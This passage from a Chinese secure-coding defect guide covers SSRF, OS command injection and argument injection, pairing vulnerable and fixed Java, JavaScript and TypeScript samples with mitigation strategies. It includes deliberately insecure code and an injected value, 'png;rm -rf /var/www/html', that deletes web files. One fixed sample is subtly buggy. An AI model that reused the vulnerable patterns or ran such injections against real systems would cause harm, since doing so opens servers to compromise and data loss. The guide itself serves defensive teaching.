  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 直接使用外部输入数据导致SSRF**
**语言: **JAVA

**描述**
应用程序将使用用户控制的数据启动与第三方系统的连接，以创建资源 URI。当攻击者可以影响应用程序服务器建立的网络连接时，将会发生 Server-Side Request Forgery。网络连接源自于应用程序服务器内部 IP，因此攻击者将可以使用此连接来避开网络控制，并扫描或攻击没有以其他方式暴露的内部资源。

**案例分析**
攻击者能否劫持网络连接取决于他可以控制的 URI 的特定部分以及用于建立连接的库。例如，控制 URI 方案将使攻击者可以使用不同于 `http` 或 `https` 的协议，类似于：`up://`、`ldap://`、`jar://`、`gopher://`、`mailto://`、`ssh2://`、`telnet://`、`expect://`

**反例**
```java
String url = request.getParameter("url");
CloseableHttpClient httpclient = HttpClients.createDefault();
HttpGet httpGet = new HttpGet(url);
CloseableHttpResponse response1 = httpclient.execute(httpGet);
```

**正例**
```java
import org.apache.http.client.config.RequestConfig;
import org.apache.http.client.methods.CloseableHttpResponse;
import org.apache.http.client.methods.HttpGet;
import org.apache.http.impl.client.CloseableHttpClient;
import org.apache.http.impl.client.HttpClients;
import java.io.IOException;
import java.net.URI;
import java.net.URISyntaxException;
import java.util.Arrays;
import java.util.List;

public class SafeHttpClient {

    public void makeSafeRequest(HttpServletRequest request, HttpServletResponse response) {
        String url = request.getParameter("url");
        if (!isUrlValid(url, request)) {
            try {
                response.sendRedirect("/error");
                return;
            } catch (IOException e) {
                // ...异常处理
            }
        }

        CloseableHttpClient httpclient = HttpClients.createDefault();
        HttpGet httpGet = new HttpGet(url);

        // 配置请求以限制重定向和超时
        RequestConfig config = RequestConfig.custom()
                .setRedirectsEnabled(false)
                .setConnectTimeout(5000)
                .setSocketTimeout(5000)
                .build();
        httpGet.setConfig(config);

        try (CloseableHttpResponse response1 = httpclient.execute(httpGet)) {
            // 处理响应
        } catch (IOException e) {
            // ...异常处理
        }
    }

    private boolean isUrlValid(String url, HttpServletRequest request) {
        try {
            URI uri = new URI(url);
            String host = uri.getHost();
            if (host == null) {
                return false;
            }
            // 允许的host列表，例如当前服务器的host
            String currentHost = request.getServerName();
            return host.equals(currentHost);
        } catch (URISyntaxException e) {
            return false;
        }
    }
}
```

**修复建议**
- 验证URL来源：URL验证方法 `isUrlValid` 检查URL的主机名是否与当前请求的主机名相同，确保只能访问当前站点的资源。
- 限制重定向：HttpClient配置，通过 `RequestConfig` 禁用重定向，并设置连接和Socket超时，防止长时间等待。
- 错误处理：如果URL验证失败，重定向到错误页面，避免执行不安全的请求。
- 使用白名单：只允许访问特定的URL模式或资源。

**案例2: SSRF服务端请求伪造致内网资源暴露**
**语言: **JAVASCRIPT

**描述**
应用程序将使用用户控制的数据启动与第三方系统的连接，以创建资源 URI。当攻击者可以影响应用程序服务器建立的网络连接时，将会发生 Server-Side Request Forgery。网络连接源自于应用程序服务器内部 IP，因此攻击者将可以使用此连接来避开网络控制，并扫描或攻击没有以其他方式暴露的内部资源。

**案例分析**
攻击者能否劫持网络连接取决于他可以控制的 URI 的特定部分以及用于建立连接的库。例如，控制 URI 方案将使攻击者可以使用不同于 `http` 或 `https` 的协议，类似于：`up://`、`ldap://`、`jar://`、`gopher://`、`mailto://`、`ssh2://`、`telnet://`、`expect://`

**反例**
```js
var http = require('http');
var url = require('url');

function listener(request, response){
  var request_url = url.parse(request.url, true)['query']['url'];
  http.request(request_url)
  ...
}
...
http.createServer(listener).listen(8080);
...
```

**正例**
```js
var http = require('http');
var url = require('url');

// 定义允许访问的白名单域名
const ALLOWED_HOSTS = ['example.com', 'example.org'];
const TIMEOUT = 5000; // 5秒超时

function listener(request, response) {
    var request_url = url.parse(request.url, true).query?.url;

    // 检查url参数是否存在
    if (!request_url) {
        response.writeHead(400, { 'Content-Type': 'text/plain' });
        response.end('Missing required URL parameter');
        return;
    }

    // 解析目标URL
    var targetUrl = url.parse(request_url);
    var targetHost = targetUrl.host;
    var targetProtocol = targetUrl.protocol;

    // 检查协议是否为https
    if (targetProtocol !== 'https:') {
        response.writeHead(400, { 'Content-Type': 'text/plain' });
        response.end('Only HTTPS protocol is allowed');
        return;
    }

    // 检查目标域名是否在白名单中
    if (!ALLOWED_HOSTS.includes(targetHost)) {
        response.writeHead(400, { 'Content-Type': 'text/plain' });
        response.end('Access denied for this host');
        return;
    }

    // 创建请求
    var req = http.request({
        host: targetHost,
        port: targetUrl.port || 443,
        path: targetUrl.pathname || '/',
        method: 'GET',
        timeout: TIMEOUT
    }, (res) => {
        response.writeHead(res.statusCode, res.headers);
        res.pipe(response);
    });

    // 处理请求超时
    req.on('socket', function(socket) {
        socket.setTimeout(TIMEOUT);
        socket.on('timeout', function() {
            req.abort();
            response.writeHead(500, { 'Content-Type': 'text/plain' });
            response.end('Request timed out');
        });
    });

    // 处理错误
    req.on('error', (err) => {
        console.error('Request failed:', err);
        response.writeHead(500, { 'Content-Type': 'text/plain' });
        response.end('Request failed: ' + err.message);
    });

    req.end();
}

http.createServer(listener).listen(8080, () => {
    console.log('Server running on port 8080');
});
```

**修复建议**
- 白名单机制：ALLOWED_HOSTS数组定义了允许访问的域名，只允许访问特定的域名或IP地址。
- 协议检查：确保请求使用HTTPS协议，避免明文传输。
- 超时设置：设置请求超时为5秒，防止长时间挂起。
- 错误处理：在请求失败或超时时，返回适当的错误信息，避免暴露内部错误。

**案例3: SSRF服务端请求伪造致内网资源暴露**
**语言: **TYPESCRIPT

**描述**
应用程序将使用用户控制的数据启动与第三方系统的连接，以创建资源 URI。当攻击者可以影响应用程序服务器建立的网络连接时，将会发生 Server-Side Request Forgery。网络连接源自于应用程序服务器内部 IP，因此攻击者将可以使用此连接来避开网络控制，并扫描或攻击没有以其他方式暴露的内部资源。

**案例分析**
攻击者能否劫持网络连接取决于他可以控制的 URI 的特定部分以及用于建立连接的库。例如，控制 URI 方案将使攻击者可以使用不同于 `http` 或 `https` 的协议，类似于：`up://`、`ldap://`、`jar://`、`gopher://`、`mailto://`、`ssh2://`、`telnet://`、`expect://`

**反例**
```ts
var http = require('http');
var url = require('url');

function listener(request, response){
  var request_url = url.parse(request.url, true)['query']['url'];
  http.request(request_url)
  ...
}
...
http.createServer(listener).listen(8080);
...
```

**正例**
```ts
var http = require('http');
var url = require('url');

// 定义允许访问的白名单域名
const ALLOWED_HOSTS = ['example.com', 'example.org'];
const TIMEOUT = 5000; // 5秒超时

function listener(request, response) {
    var request_url = url.parse(request.url, true).query?.url;

    // 检查url参数是否存在
    if (!request_url) {
        response.writeHead(400, { 'Content-Type': 'text/plain' });
        response.end('Missing required URL parameter');
        return;
    }

    // 解析目标URL
    var targetUrl = url.parse(request_url);
    var targetHost = targetUrl.host;
    var targetProtocol = targetUrl.protocol;

    // 检查协议是否为https
    if (targetProtocol !== 'https:') {
        response.writeHead(400, { 'Content-Type': 'text/plain' });
        response.end('Only HTTPS protocol is allowed');
        return;
    }

    // 检查目标域名是否在白名单中
    if (!ALLOWED_HOSTS.includes(targetHost)) {
        response.writeHead(400, { 'Content-Type': 'text/plain' });
        response.end('Access denied for this host');
        return;
    }

    // 创建请求
    var req = http.request({
        host: targetHost,
        port: targetUrl.port || 443,
        path: targetUrl.pathname || '/',
        method: 'GET',
        timeout: TIMEOUT
    }, (res) => {
        response.writeHead(res.statusCode, res.headers);
        res.pipe(response);
    });

    // 处理请求超时
    req.on('socket', function(socket) {
        socket.setTimeout(TIMEOUT);
        socket.on('timeout', function() {
            req.abort();
            response.writeHead(500, { 'Content-Type': 'text/plain' });
            response.end('Request timed out');
        });
    });

    // 处理错误
    req.on('error', (err) => {
        console.error('Request failed:', err);
        response.writeHead(500, { 'Content-Type': 'text/plain' });
        response.end('Request failed: ' + err.message);
    });

    req.end();
}

http.createServer(listener).listen(8080, () => {
    console.log('Server running on port 8080');
});
```

**修复建议**
- 白名单机制：ALLOWED_HOSTS数组定义了允许访问的域名，只允许访问特定的域名或IP地址。
- 协议检查：确保请求使用HTTPS协议，避免明文传输。
- 超时设置：设置请求超时为5秒，防止长时间挂起。
- 错误处理：在请求失败或超时时，返回适当的错误信息，避免暴露内部错误。

#### CWD-1066-000 服务器请求伪造（SSRF）

#### CWD-1066-001 【HTTPClient-Fluent】通过org.apache.hc.client5.http.fluent.Request发起请求时，可被绕过的Host/IP校验方式引发SSRF漏洞

#### CWD-1066-002 【HTTPClient-Fluent】通过org.apache.hc.client5.http.fluent.Request发起请求时，未以"/"结尾的硬编码Host/IP拼接了不可信数据，可通过@符号绕过HOST/IP的限制，造成SSRF漏洞

#### CWD-1066-003 【HTTPClient-Fluent】通过org.apache.hc.client5.http.fluent.Request发起请求时，直接使用外部传入的URL进行请求引发SSRF漏洞

#### CWD-1066-004 【HTTPClient-Classic】通过org.apache.hc.client5.http.classic.methods下的HttpGet、HttpPost、HttpPut、HttpDelete发起请求时，可被绕过的Host/IP校验方式引发SSRF漏洞

#### CWD-1066-005 【HTTPClient-Classic】通过org.apache.hc.client5.http.classic.methods下的HttpGet、HttpPost、HttpPut、HttpDelete发起请求时，未以"/"结尾的硬编码Host/IP拼接了不可信数据，可通过@符号绕过HOST/IP的限制，造成SSRF漏洞

#### CWD-1066-006 【HTTPClient-Classic】通过org.apache.hc.client5.http.classic.methods下的HttpGet、HttpPost、HttpPut、HttpDelete发起请求时，直接使用外部传入的URL进行请求引发SSRF漏洞

#### CWD-1066-007 【Hutool】通过cn.hutool.http.HttpUtil发起请求时，可被绕过的Host/IP校验方式引发SSRF漏洞

#### CWD-1066-008 【Hutool】通过cn.hutool.http.HttpUtil发起请求时，未以"/"结尾的硬编码Host/IP拼接了不可信数据，可通过@符号绕过HOST/IP的限制，造成SSRF漏洞

#### CWD-1066-009 【Hutool】通过cn.hutool.http.HttpUtil发起请求时，直接使用外部传入的URL进行请求引发SSRF漏洞

#### CWD-1066-010 【JDK】通过java.net.URL/URI发起请求时，可被绕过的Host/IP校验方式引发SSRF漏洞

#### CWD-1066-011 【JDK】通过java.net.URL/URI发起请求时，未以"/"结尾的硬编码Host/IP拼接了不可信数据，可通过@符号绕过HOST/IP的限制，造成SSRF漏洞

#### CWD-1066-012 【JDK】通过java.net.URL/URI发起请求时，直接使用外部传入的URL进行请求引发SSRF漏洞

#### CWD-1066-013 【通用】通过java.net.URL的toString方法构造url时，URL对象的file属性受控造成SSRF

#### CWD-1066-014 【Okhttp】通过okhttp3.Request发起请求时，可被绕过的Host/IP校验方式引发SSRF漏洞

#### CWD-1066-015 【Okhttp】通过okhttp3.Request发起请求时，未以"/"结尾的硬编码Host/IP拼接了不可信数据，可通过@符号绕过HOST/IP的限制，造成SSRF漏洞

#### CWD-1066-016 【Okhttp】通过okhttp3.Request发起请求时，直接使用外部传入的URL进行请求引发SSRF漏洞

#### CWD-1066-017 【RestTemplate】通过org.springframework.web.client.RestTemplate发起请求时，可被绕过的Host/IP校验方式引发SSRF漏洞

#### CWD-1066-018 【RestTemplate】通过org.springframework.web.client.RestTemplate发起请求时，未以"/"结尾的硬编码Host/IP拼接了不可信数据，可通过@符号绕过HOST/IP的限制，造成SSRF漏洞

#### CWD-1066-019 【RestTemplate】通过org.springframework.web.client.RestTemplate发起请求时，直接使用外部传入的URL进行请求引发SSRF漏洞

#### CWD-1066-020 【Socket】通过java.net.Socket进行通信时，直接使用不可信的Host/IP构造Socket对象引发SSRF漏洞

#### CWD-1066-021 【SSLSocket】通过javax.net.ssl.SSLSocket进行通信时，直接使用不可信的Host/IP构造SSLSocket对象引发SSRF漏洞

**业界缺陷**

- [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
---

# CWD-1068 OS命令注入

**别名: **操作系统命令中使用的特殊元素中和不当（“OS命令注入”）；操作系统命令注入；shell注入；不可信数据直接拼接操作系统命令

**描述**
操作系统命令注入（OS命令注入），源于应用程序将用户输入直接合并到操作系统命令中（如shell），由shell命令解释器处理的命令中时，就会出现操作系统命令注入。若未严格验证，攻击者可使用shell元字符修改执行的命令，控制服务器，读取或修改数据，执行特权操作，甚至破坏服务器并扩展攻击至内部系统，建立持久访问点，造成严重安全威胁。为了避免这种漏洞，开发人员需要对用户输入进行严格的验证和过滤，并避免直接拼接用户输入到命令字符串中。通过使用参数化命令和安全的API，可以有效防止命令注入攻击。


- 操作系统命令注入至少有两种子类型：
  1. 直接使用外部输入作为执行命令：应用程序打算执行在自己控制下的单个固定程序。它打算使用外部提供的输入作为该程序的参数。例如，程序可能使用系统（"`nslookup[HOSTNAME]`"）来运行nslookup，并允许用户提供HOSTNAME，该HOSTNAME用作参数。攻击者无法阻止nslookup的执行。但是，如果程序不从HOSTNAME参数中删除命令分隔符，攻击者可以将分隔符放入参数中，这允许他们在nslookup执行完成后执行自己的程序。  2. 输入校验不完全：应用程序接受一个输入，它使用这个输入来完全选择要运行的程序以及要使用的命令。应用程序只是将整个命令重定向到操作系统。例如，程序可能使用“`exec([command])`”来执行用户提供的`[command]`。如果command处于攻击者控制之下，则攻击者可以执行任意命令或程序。如果使用`exec()`和`CreateProcess()`等函数执行命令，则攻击者可能无法将多个命令组合在同一行中。- 注入的OS命令需要搭配命令分隔符使用，以下命令分隔符
  - Linux和Windows系统下通用的：`&` `&&` `|` `||`  - 只有Linux系统下的：`;` `换行符(0x0a or \n)`


**语言: **C,CPP,JAVA

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：最小权限原则
  确保执行命令的用户或进程具有最小的权限，避免攻击者通过命令注入获得高权限。如涉及sudo配置命令和脚本，禁止在命令参数中的使用通配符。配置服务器和应用程序，即使发生注入攻击，也使其无法执行高风险操作。
- 策略2：设计完善的防御过滤机制
  对一切外来参数进行充分的过滤防御；对引入参数也需进行充分过滤和校验。
- 策略3：设计统一的命令执行模块和接口
  充分做好过滤，避免应用程序层代码直接调用 OS 命令。
- 策略4：沙箱
  有效性：有限
  在类似的沙箱环境中运行代码，在进程和操作系统之间强制实施严格的边界。这可以有效地限制特定目录中可以访问哪些文件，或者软件可以执行哪些命令。操作系统级的包括`Unix chroot`、`AppArmor`和`SELinux`。一般来说，托管代码可以提供一些保护。例如`Java SecurityManager`中的`java.io.FilePermission`允许软件指定对文件操作的限制。
- 策略5：减少攻击面
  对于将用于生成要执行的命令的任何数据，尽可能让这些数据处于外部控制之外。例如，在Web应用程序中，需要在会话的状态中本地存储数据，而不是在隐藏的表单字段中将数据发送到客户端。
- 策略6：在服务端执行安全性检查
  在客户端和服务器端都执行安全性检查。如果仅在客户端执行安全性检查，攻击者可以通过在执行检查后修改值来绕过客户端检查，或者通过更改客户端以完全删除客户端检查。然后，这些修改后的值将被提交到服务器。
- 策略7：库或框架
  使用经过审核的库或框架，不允许此弱点发生，或提供更容易避免此弱点的构造。例如，使用`Huawei WSF安全框架`。
- 策略8：参数化
  使用结构化机制，自动强制数据和代码之间的分离。这些机制可能能够自动提供相关的引用、编码和验证，而不是依赖开发人员在生成输出的每个点提供这种能力。
- 策略9：通过转换执行
  当可接受对象的集合（如文件名或URL）有限或已知时，创建从一组固定输入值（如数字ID）到实际文件名或URL的映射，并拒绝所有其他输入。

**编码**
- 策略1：使用参数化API
  尽量避免直接拼接用户输入到命令中，改用支持参数化的API或函数。例如，在Java中可以使用ProcessBuilder来构造命令。
- 策略2：使用安全的API
  利用安全的API来执行系统命令，避免直接拼接用户输入。
  1. 使用subprocess模块的安全方法，如subprocess.run，并避免直接拼接用户输入到命令字符串中。
  2. 避免使用os.system和os.popen，因为它们更容易受到注入攻击。
- 策略3：输入验证
  有效性：中
  假设所有输入都是恶意的。使用“接受已知良好”的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  1. 对用户输入进行严格的验证，拒绝任何包含特殊字符或不符合预期格式的输入，确保用户输入符合预期的格式和内容。
  2. 使用正则表达式或其他验证机制来过滤输入。
  3. 如果要执行的程序允许在输入文件中或从标准输入中指定参数，则考虑使用该模式来传递参数而不是命令行。
  4. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  5. 不要完全依赖查找恶意或格式错误（黑名单）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，黑名单对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。
  6. 在构造操作系统命令字符串时，使用严格的允许列表（白名单），根据请求中参数的期望值来限制字符集。
  注意，适当的输出编码、转义和引号是防止OS命令注入的最有效解决方案，尽管输入验证可能提供一些深度防御。这是因为它有效地限制了将在输出中出现的内容。输入验证并不总是防止操作系统命令注入，特别是如果需要支持可能包含任意字符的自由格式文本字段。
- 策略4：输出编码 
  虽然使用将控制和数据混合在一起的动态生成的查询字符串、代码或命令是有风险的，但有时这可能是不可避免的。正确引用参数并转义这些参数中的任何特殊字符。最保守的方法是转义或过滤所有没有通过非常严格的允许列表的字符（例如所有不是字母数字或空格的字符）。如果仍然需要一些特殊字符（如空格），请在转义/过滤步骤之后用引号将每个参数括起来。
- 策略5：避免使用shell=True
  为减少命令注入的可能性。尽量避免使用shell=True，改用参数化命令，例如subprocess.run(["echo", "message"])。如果必须使用shell=True，确保所有用户输入都经过严格的过滤和转义。
- 策略6：日志和监控
  记录所有执行的命令，并对异常行为进行监控，及时发现潜在的攻击行为。
  1. 确保错误消息只包含对目标受众有用的最小细节，而不是其他人。这些消息需要在过于晦涩（可能会让用户感到困惑）和过于详细（可能会透露出超出预期的信息）之间取得平衡。消息不应显示用于确定错误的方法。攻击者可以利用详细信息来完善或优化其原始攻击，从而增加其成功的机会。
  2. 如果必须详细地捕获错误，请将其记录在日志消息中，但请考虑如果攻击者可以查看日志消息可能会发生什么情况。高度敏感的信息（如密码）不应该保存到日志文件中。
  3. 避免不一致的消息传递可能会意外地让攻击者了解内部状态，例如用户帐户是否存在。
  4. 在操作系统命令注入的上下文中，传递给用户的错误信息可能会揭示是否正在执行操作系统命令，以及可能正在使用哪个命令。

**开发者测试**
- 策略1：单元测试
  编写单元测试，验证命令执行模块在不同输入情况下的行为，尤其是恶意输入。

**代码Review**
- 策略1：识别所有使用系统命令的地方
  1. 找出所有可能执行系统命令的代码段。检查所有调用subprocess.run、os.system、os.popen等函数的地方。
  2. 查找使用shell=True的参数，因为这会启用Shell解释器，增加注入风险。
- 策略2：检查用户输入的处理
  1. 确保用户输入在拼接到命令前经过适当的过滤和转义。确认所有用户输入变量在拼接到命令字符串前使用了转义函数，如subprocess.quote。
  2. 避免直接拼接用户输入到命令字符串中，改用参数化命令。

**编译构建**
- 策略1：安全编译选项
  在编译时启用安全选项（如ASLR、DEP等），减少攻击者利用漏洞的可能性。
- 策略2：依赖管理
  使用依赖管理工具（如Maven、npm、pip等）检查第三方库是否存在已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略3：安全审计
  在编译构建阶段，对最终生成的二进制文件或包进行安全审计，确保没有隐藏的命令注入漏洞。
- 策略4：代码混淆
  对关键代码进行混淆处理，防止攻击者通过逆向工程发现命令注入点。
- 策略5：集成安全工具
  在构建过程中使用静态分析工具（如CodeCheck平台、spotbugs、SonarQube、Checkmarx或FindBugs扫描代码），自动检测潜在问题。
- 策略6：安全插件
  集成安全插件（如OWASP Dependency-Check），增强构建过程的安全性。
- 策略7：沙箱
  使用运行时策略实施创建允许的命令的允许列表，然后防止使用未出现在允许列表中的任何命令。AppArmor等技术可以做到这一点。
- 策略8：防火墙
  有效性：中
  使用可以检测针对此弱点的攻击的应用防火墙。在代码无法修复的情况下（因为它被第三方控制），在应用更全面的软件保障措施时作为紧急预防措施，或提供纵深防御时，它可能是有益的。
  - 备注：应用程序防火墙可能无法覆盖所有可能的输入向量。此外，还可以使用攻击技术来绕过保护机制，例如使用格式错误的输入，这些输入仍然可以由接收这些输入的组件处理。根据功能的不同，应用程序防火墙可能会无意中拒绝或修改合法请求。最后，定制可能需要一些手动工作。

**代码检查**
- 策略1：工具静态安全扫描
  codecheck静态代码检测工具；
- 策略2：工具动态安全扫描
  动态fuzz工具；AppScan工具；

**集成测试**
- 策略1：全面测试
  在集成环境中，对所有模块进行综合测试，确保命令执行模块与其他模块的交互不会引入命令注入漏洞。
- 策略2：异常监控
  在集成测试中监控命令执行模块的异常行为，检测是否存在未预期的命令执行。
- 策略3：自动化测试
  使用自动化测试工具（如OWASP ZAP、Burp Suite等）检测命令注入漏洞。
- 策略4：安全评估
  在集成测试阶段，进行安全评估，确保整个系统的命令注入防护措施有效。
- 策略5：模糊测试（Fuzz Testing）
  使用模糊测试工具向命令执行模块输入随机或恶意数据，检测是否存在命令注入漏洞。
- 策略6：渗透测试
  模拟攻击者，尝试通过输入注入恶意命令，验证防御措施的有效性。

**示例**
**案例1: OS命令注入漏洞导致服务器受损**
**语言: **JAVA

**描述**
一个在线图片处理系统，用户可以通过上传图片并指定图片的格式（如JPEG、PNG等）来转换图片格式。系统后端使用Java编写，并通过调用外部命令（如ImageMagick的`convert`工具）来处理图片。以下是系统的简化代码：

**案例分析**
- 直接将用户输入拼接到命令中，没有进行任何过滤或转义。
- 攻击者可以通过注入分号;或其他命令分隔符，执行任意系统命令。

在这个案例中，攻击者可以通过构造恶意的`filename`或`targetFormat`参数，注入恶意命令，从而控制服务器。

假设攻击者构造以下请求：
```text
java ImageConverter png;rm -rf /var/www/html image.jpg
```
此时，command会被构造为：
```bash
convert image.jpg image.jpg.png;rm -rf /var/www/html
```
执行该命令后，`rm -rf /var/www/html`会被执行，导致服务器上的网站文件被删除。

**反例**
```java
import java.io.IOException;

public class ImageConverter {
    public static void main(String[] args) {
        String targetFormat = args[0];
        String filename = args[1];
        String command = "convert " + filename + " " + filename + "." + targetFormat;
        try {
            Process process = Runtime.getRuntime().exec(command);
            process.waitFor();
        } catch (IOException | InterruptedException e) {
            // ...异常处理
        }
    }
}
```

**正例**
```java
import java.io.IOException;
import java.util.stream.Collectors;
import java.util.stream.Stream;

public class ImageConverter {
    public static void main(String[] args) {
        String targetFormat = args[0];
        String filename = args[1];

        // 使用ProcessBuilder来构造命令，避免命令注入
        ProcessBuilder processBuilder = new ProcessBuilder(
            "convert",
            filename,
            filename + "." + targetFormat
        );

        try {
            Process process = processBuilder.start();
            process.waitFor();
            // 读取输出
            String output = process.getInputStream().readAllBytes()
                .toString();
            Logger.info(output);
        } catch (IOException | InterruptedException e) {
            // ...异常处理
        }
    }
}
```

**修复建议**
- 使用`ProcessBuilder`来构造命令，避免直接拼接用户输入。
- `ProcessBuilder`会自动对参数进行转义，防止命令注入。

#### CWD-1068-000 OS命令注入

#### CWD-1068-001 【JDK】使用Runtime.exec()执行非shell命令时，拼接的外部可控参数未得到正确校验，则可利用命令存在的参数进行攻击，造成OS命令注入

#### CWD-1068-002 【JDK】使用Runtime.exec()执行shell命令时，拼接的外部可控参数未得到正确校验，则可利用链接或者管道的方式来执行任意命令，造成OS命令注入

#### CWD-1068-003 【JDK】使用Runtime.exec()执行命令时，命令外部可控且未得到正确校验，则可执行任意命令，造成OS命令注入

#### CWD-1068-004 【JDK】使用java.lang.ProcessBuilder类执行非shell命令时，命令列表中外部可控的参数未得到正确校验，则可利用命令存在的参数进行攻击，造成OS命令注入

#### CWD-1068-005 【JDK】使用java.lang.ProcessBuilder类执行shell命令时，命令列表中外部可控的参数未得到正确校验，则可利用链接或者管道的方式来执行任意命令，造成OS命令注入

#### CWD-1068-006 【JDK】使用java.lang.ProcessBuilder类执行命令时，命令外部可控且未得到正确校验，则可执行任意命令，造成OS命令注入

#### CWD-1068-007 【JDK】使用java.lang.ProcessBuilder类执行命令时，通过ProcessBuilder.environment()配置的环境变量外部可控且未得到正确校验，造成OS命令注入

#### CWD-1068-008 【SSHJ】使用net.schmizz.sshj.SSHClient中的Session类执行命令时，命令外部可控且未得到正确校验，则可执行任意命令，造成OS命令注入

#### CWD-1068-009 【C/C++】禁止外部可控数据作为进程启动函数的参数

**业界缺陷**

- [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)
---

# CWD-1069 参数注入

**别名: **命令中参数分隔符中和不当（“参数注入”）；参数注入或修改；命令中参数限定不当（“参数注入”）

**描述**
参数注入是一种攻击技术，组件执行的命令构造一个字符串，但没有正确地分隔该命令字符串中的预期参数、选项或开关，会造成参数注入。攻击者通过在应用程序中注入恶意参数来控制应用程序的行为或者获取敏感信息。也可以通过修改HTTP请求参数、表单参数、URL参数等方式来实现参数注入攻击。一旦攻击成功，攻击者就可以获取应用程序的敏感信息，或者执行恶意操作，比如修改、删除、添加数据等。为了防止参数注入攻击，开发人员需要对输入参数进行严格的校验和过滤，确保输入参数的合法性和安全性。同时，应用程序也需要采用一些安全机制，比如访问控制、加密、防火墙等，来提高应用程序的安全性。


- 参数注入缺陷通常发生在应用程序处理外部输入时，未能正确验证或转义输入数据，导致攻击者能够注入恶意代码或命令。
**语言: **C,CPP,JAVA

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：最小权限原则
  确保执行命令的用户或进程具有最小的权限，以限制潜在攻击的影响。
- 策略2：输入验证设计
  了解不受信任的输入可能进入产品的所有潜在领域：参数或变量、Cookie、从网络读取的任何内容、环境变量、请求头以及内容、URL组件、电子邮件、文件、数据库以及任何为应用程序提供数据的外部系统。在接口上执行输入验证。
- 策略3：监控和日志记录
  记录所有敏感操作，便于审计和检测异常行为。
- 策略4：使用安全的操作方式或框架

**编码**
- 策略1：参数化 `推荐`
  有效性：高
  尽可能避免生成包含命令及其参数的单个字符串。一些语言或框架具有支持指定独立参数的函数，如作为数组，用于在构建命令时自动执行适当的引号或转义。
- 策略2：输入验证
  1. 在输入验证之前，应将输入解码并规范化为应用程序当前的内部表示。确保应用程序不会无意中对同一输入解码两次。因为这样的错误可以被用来绕过白名单方案，在它们被检查之后引入危险的输入。示例：使用OWASP ESAPI规范化控件等库。也可以考虑重复执行规范化，直到输入不再改变。这将避免重复解码和类似的场景，但可能会无意中修改允许包含正确编码的危险内容输入。
     ```java
     // Java示例
     String canonicalPath = new File(userInput).getCanonicalPath();
     ```
     - C语言中 `realpath()`
     - Java中 `getCanonicalPath()`
     - ASP.NET中 `GetFullPath()`
     - Perl中 `realpath()`或`abs_path()`
     - PHP中 `realpath()`
  2. 假设所有输入都是恶意的。使用 `白名单` 的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  3. 不要完全依赖`黑名单`输入验证策略，当代码的环境发生变化时，这很可能会丢失检查项，这可以给攻击者提供足够的空间来绕过预期的验证。但 `黑名单` 对于检测潜在的攻击或确定哪些输入格式错误，用来判断直接拒绝非常有用。
  4. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  5. 当应用程序合并来自多个源的数据时，请在合并源之后执行验证。单个数据元素可能通过验证步骤，但在合并后违反预期的限制。
- 策略3：转义
  直接将输入类型转换为期望的数据类型，例如使用转换函数将字符串转换为数字。转换为预期的数据类型后，确保输入的值在预期的允许值范围内，并保持多字段一致性。
- 策略4：统一编码
  在组件之间交换数据时，请确保两个组件使用相同的字符编码。确保在每个接口上应用正确的编码。只要协议允许，显式设置正在使用的编码。
- 策略5：遵守安全编码规范
  制定并遵循安全编码规范。

**开发者测试**
- 策略1：单元测试
  编写测试用例，确保输入处理逻辑正确，覆盖各种可能的输入情况。

**代码Review**
- 策略1：安全审查
  由安全专家审查代码，特别是输入处理和参数使用部分，确保没有漏洞。
- 策略2：日志审查
  检查日志记录是否完整，确保关键操作可追踪。
- 策略3：安全框架使用检查
  确保安全框架正确使用，没有误用导致漏洞。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 输入处理不当引发参数命令注入风险。**
**语言: **JAVA

**描述**
一个Java应用程序，该程序允许用户通过输入搜索模式来搜索文件。程序会根据用户的输入构造一个`find`命令来执行文件搜索。然而，如果用户输入没有被正确处理，攻击者可能会注入额外的命令或参数，导致执行恶意代码。

**反例**
```java
import java.io.IOException;

public class FileSearch {
    public static void main(String[] args) {
        // 用户输入的搜索模式
        String searchPattern = args[0];
        String command = "find / -name \"" + searchPattern + "\"";
        
        try {
            Process process = Runtime.getRuntime().exec(command);
            // 处理输出...
        } catch (IOException e) {
            // ...异常处理;
        }
    }
}
```

**正例**
```java
import java.io.IOException;
